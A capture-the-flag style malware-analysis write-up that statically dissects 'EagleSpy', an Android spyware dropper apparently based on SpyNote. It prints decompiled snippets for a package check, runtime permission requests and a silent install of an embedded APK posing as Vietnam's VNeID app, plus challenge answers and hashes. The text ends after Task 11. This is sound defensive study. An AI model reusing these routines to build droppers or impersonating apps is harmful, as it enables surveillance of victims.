# MalOps — EagleSpy (Android Spyware) Writeup

**Category:** Spyware · **Level:** Easy · **Tools:** JADX-GUI, CyberChef, `sha256sum`
**Creator:** P4nd3m1cb0y (MalOps platform)

This is a static-analysis writeup of the **EagleSpy** challenge — a two-stage Android RAT built on the leaked **SpyNote** source code. The first-stage APK is a dropper/installer; it carries a second, fully Trojanized APK as an embedded asset. All 15 questions are solved below with the exact decompiled code, manifest entries, and decoding steps that produced each answer.

> ⚠️ This is a defensive/educational analysis of a public training sample. No malware was built, modified, or distributed — only reverse-engineered for identification purposes. Do not install or execute the APK on a personal or production device.

---

## Table of Contents

- [Scope & Methodology](#scope--methodology)
- [Sample Overview](#sample-overview)
- [Task 1 — Manifest filename](#task-1--what-file-defines-the-apps-structuremetadata)
- [Task 2 — Package ID](#task-2--package-id-of-the-sample)
- [Task 3 — Declared permissions](#task-3--how-many-permissions-are-declared)
- [Task 4 — Main activity class](#task-4--main-activity-entry-point-class)
- [Task 5 — Installed-app check method](#task-5--method-that-validates-if-an-app-is-installed)
- [Task 6 — Package checked by that method](#task-6--package-checked-by-the-q5-method)
- [Task 7 — Targeted languages](#task-7--how-many-languages-are-targeted)
- [Task 8 — Dynamically requested permissions](#task-8--two-dynamically-requested-permissions)
- [Task 9 — Payload location](#task-9--internal-location-of-the-second-stage-payload)
- [Task 10 — Payload SHA-256](#task-10--sha-256-of-the-second-stage-payload)
- [Task 11 — Impersonated application](#task-11--trojanized-government-application-name)
- [Task 12 — Persistence permission](#task-12--persistence-permission)
- [Task 13 — C2 IP and port](#task-13--decoded-c2-ip-and-port)
- [Task 14 — ConnectionKey](#task-14--decoded-connectionkey)
- [Task 15 — JSON AES key](#task-15--secret-key-for-jsonc2-payload-encryption)
- [Consolidated Answer Sheet](#consolidated-answer-sheet)
- [Key Takeaways](#key-takeaways)

---

## Scope & Methodology

The investigation is pure **static analysis**:

1. Extract the password-protected challenge archive (`infected`).
2. Decompile the outer APK with **JADX-GUI**.
3. Walk the manifest → Java source → embedded asset chain.
4. Extract the embedded second-stage APK (`childapp.apk`) and decompile it as its **own** JADX project — code found in one stage is never assumed to apply to the other.
5. Decode Base64 / crypto constants with CyberChef or `python3 -c "import base64..."` and verify them against their call sites, not just their string literals.

**Golden rule used throughout:** never submit a value (method name, package, hash, decoded string) until the code that *consumes* it is found — a string sitting in isolation is a lead, not evidence.

```bash
sudo apt install jadx unzip -y
unzip -P infected challenge-eaglespy.zip
jadx-gui <extracted-apk>
```




---

## Sample Overview

| Property | First-stage APK | Second-stage APK (`childapp.apk`) |
|---|---|---|
| Role | Dropper / installer | Trojanized payload (RAT) |
| Package | `com.appd.instll.load` | `com.found.hentai` |
| Displayed as | — (silent installer UI) | **VNeID** (impersonates a real government e-ID app) |
| SHA-256 | `84f7402d38f4e8d0e44a2803a76249c2f7fdd8e4f069e5a84408d7d4da2e4c17` | `799a3d9663bb9c26c3cfe68ed2c8e35c657ac3edf969825dc83f2c5812f96429` |

The two APKs must be kept separate: a manifest or class found in the outer installer tells you nothing about the inner payload, and vice versa.

---

## Task 1 — What file defines the app's structure/metadata?

**Answer:** `AndroidManifest.xml`

**Concept:** Every Android APK bundles a binary-XML manifest describing its package identity, permissions, activities, services, receivers, and other components. It's the first file to open in any APK triage.



---

## Task 2 — Package ID of the sample

**Answer:** `com.appd.instll.load`

**Evidence:** the `package=` attribute at the top of the manifest.

```xml
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    android:versionCode="331165"
    android:versionName="3.31.165"
    package="com.appd.instll.load"
    ...>
```



---

## Task 3 — How many permissions are declared?

**Answer:** `4` ✅ *(platform-confirmed, 10/10 pts)*

**Evidence:** exactly four `<uses-permission>` entries in the first-stage manifest.

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.REQUEST_INSTALL_PACKAGES"/>
<uses-permission android:name="android.permission.REQUEST_DELETE_PACKAGES"/>
```

**Concept:** count only top-level `<uses-permission>` declarations in *this* manifest — don't conflate with runtime `requestPermissions()` calls (Task 8) or the second-stage manifest's own permission list (Task 12).




---

## Task 4 — Main activity entry point class

**Answer:** `splash` (full name `com.appd.instll.splash`)

**Evidence:** the activity carrying `MAIN` + `LAUNCHER` in its intent filter.

```xml
<activity
    android:theme="@android:style/Theme.DeviceDefault.NoActionBar"
    android:label="@string/Myname"
    android:icon="@drawable/myicon"
    android:name="com.appd.instll.splash"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
        <category android:name="android.intent.category.LEANBACK_LAUNCHER"/>
    </intent-filter>
    ...
```

**Concept:** don't confuse the `<application android:name=...>` application class with the launcher *activity* class — only the activity with `MAIN`/`LAUNCHER` is the entry point.



---

## Task 5 — Method that validates if an app is installed

**Answer:** `isAppAvailable`

**Investigation path:**
1. Global search (`Ctrl+Shift+F`) for `getPackageInfo` first returned only AndroidX library noise (`PackageInfoCompat`, `ShortcutManagerCompat`) — a dead end, correctly discarded rather than submitted.
2. Pivoting to the app's own broadcast receiver turned up the real call site: `oxgouacygcwohqzcuxomeqcxomnxun3.isAppAvailable(context, oxgouacygcwohqzcuxomeqcxomnxun3.TargetBaseid)`.
3. Jumping to the declaration confirmed the method body.

```java
public static boolean isAppAvailable(Context context, String str) {
    try {
        context.getPackageManager().getApplicationInfo(str, 0);
        return true;
    } catch (PackageManager.NameNotFoundException unused) {
        return false;
    }
}
```

**Concept:** `getApplicationInfo()`/`getPackageInfo()` throwing `NameNotFoundException` is the standard Android idiom for "is this package installed?" — the malware's own wrapper method, not the framework API, is the correct answer.





---

## Task 6 — Package checked by the Q5 method

**Answer:** `com.found.hentai`

**Evidence:** the field passed as the second argument to `isAppAvailable()`.

```java
public static String TargetBaseid = "com.found.hentai";
```

This is the first confirmation that the first-stage installer's whole purpose is to check for / install the second-stage payload — whose package is `com.found.hentai`, matching the `childapp.apk` manifest in Task 11.

*(Evidence image — same as Task 5, `09-q5-q6-isappavailable-method-targetbaseid.png`.)*

---

## Task 7 — How many languages are targeted?

**Answer:** `6`

**Evidence:** a `switch` on the device's default language code.

```java
String language = Locale.getDefault().getLanguage();
switch (language) {
    case "ar": this.upbtn.setText("إعادة التثبيت"); break;   // Arabic
    case "en": this.upbtn.setText("Update");        break;   // English
    case "pt": this.upbtn.setText("Reinstalando");  break;   // Portuguese
    case "ru": this.upbtn.setText("Переустановка"); break;   // Russian
    case "tr": this.upbtn.setText("yeniden yükleme");break;  // Turkish
    case "zh": this.upbtn.setText("重新安装");        break;   // Chinese
    default:   this.upbtn.setText("Update");        break;
}
```

**Concept:** the `default:` branch is a fallback, not a 7th targeted language — only the explicit `case` labels count.



---

## Task 8 — Two dynamically requested permissions

**Answer:** `android.permission.WRITE_EXTERNAL_STORAGE`, `android.permission.READ_EXTERNAL_STORAGE`

**Evidence:** the runtime permission request (distinct from the manifest's static declarations in Task 3).

```java
public boolean checkPermissions() {
    return ContextCompat.checkSelfPermission(this, "android.permission.WRITE_EXTERNAL_STORAGE") == 0
        && ContextCompat.checkSelfPermission(this, "android.permission.READ_EXTERNAL_STORAGE") == 0;
}

public void requestPermissions() {
    ActivityCompat.requestPermissions(this,
        new String[]{"android.permission.WRITE_EXTERNAL_STORAGE",
                     "android.permission.READ_EXTERNAL_STORAGE"}, 1);
}
```

Once both are granted, `onRequestPermissionsResult()` calls `rakmmoxhsmlszubaybgommgukusglp5.install(this.mContext)` — directly wiring the permission grant to the payload installation (Task 9).




---

## Task 9 — Internal location of the second-stage payload

**Answer:** `assets`

**Evidence:** the `install()` method's APK-loading statement.

```java
public static void install(Context context) {
    ...
    PackageInstaller.Session sessionOpenSession =
        packageInstaller.openSession(packageInstaller.createSession(sessionParams));
    inputStreamOpen = context.getAssets().open("childapp.apk");
    ...
    session2.commit(PendingIntent.getBroadcast(context, 0,
        new Intent(jzwvrihyjsyfujmenlmnexzsfalrak1.ACTION_DELIVER_PI_EVENT), 134217728)
        .getIntentSender());
}
```

**Concept:** `PackageInstaller.Session` is the modern silent-install API (vs. launching the system installer UI); `getAssets().open(...)` confirms the payload ships inside the APK's own `assets/` folder rather than being downloaded.




---

## Task 10 — SHA-256 of the second-stage payload

**Answer:** `799a3d9663bb9c26c3cfe68ed2c8e35c657ac3edf969825dc83f2c5812f96429` ✅ *(platform-confirmed, 8/8 pts)*

```bash
sha256sum childapp.apk
# 799a3d9663bb9c26c3cfe68ed2c8e35c657ac3edf969825dc83f2c5812f96429  childapp.apk
```

**Pitfall avoided:** a first manual transcription from a screenshot dropped a leading `9`, producing an invalid-looking `79a3d...` string. Always copy hash output directly from the terminal/clipboard rather than retyping from a screenshot.





---

## Task 11 — Trojanized government application name

**Answer:** `VNeID`

With `childapp.apk` opened as its **own** JADX project (package confirmed as `com.found.hentai`):

```xml
<activity
    android:theme="@android:style/Theme.Translucent.NoTitleBar"
    android:label="VNeID"
    android:icon="@drawable/skinicon"
    android:name="com.found.gybbpabtniopoetzeacrkmlxdhuvgpvnwtahmsaxmtnaltfrgf2.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
```

**Concept:** `VNeID` is Vietnam's real national electronic-identification app. The malware impersonates it on the home screen/launcher to blend in and build user trust, while `com.found.hentai` (the actual package name) never surfaces to the victim.


